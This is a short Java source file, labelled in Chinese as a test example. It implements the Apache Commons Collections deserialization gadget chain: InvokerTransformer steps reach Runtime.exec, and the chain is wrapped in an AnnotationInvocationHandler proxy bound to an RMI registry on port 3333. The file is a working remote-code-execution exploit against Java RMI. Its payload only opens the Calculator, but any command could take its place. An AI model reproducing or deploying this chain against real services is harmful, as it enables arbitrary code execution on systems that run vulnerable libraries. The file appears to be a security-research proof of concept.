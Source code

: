 测试例子：

```
package test;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.util.HashMap;
import java.util.Map;

public class UserServerEval {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",
                        new Class[] {String.class, Class[].class},
                        new Object[] {"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke",
                        new Class[] {Object.class, Object[].class},
                        new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] {String.class},
                        new Object[] {"open -a Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        innerMap.put("value", "Threezh1");
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        Class AnnotationInvocationHandlerClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor cons = AnnotationInvocationHandlerClass.getDeclaredConstructor(Class.class, Map.class);
        cons.setAccessible(true);
        InvocationHandler evalObject = (InvocationHandler) cons.newInstance(java.lang.annotation.Retention.class, outerMap);
        Remote proxyEvalObject = Remote.class.cast(Proxy.newProxyInstance(Remote.class.getClassLoader(), new Class[] { Remote.class }, evalObject));
        Registry registry = LocateRegistry.createRegistry(3333);
        Registry registry_remote = LocateRegistry.getRegistry("127.0.0.1", 3333);
        registry_remote.bind("HelloRegistry", proxyEvalObject);
        System.out.println("rmi start at 3333");
    }

}


```
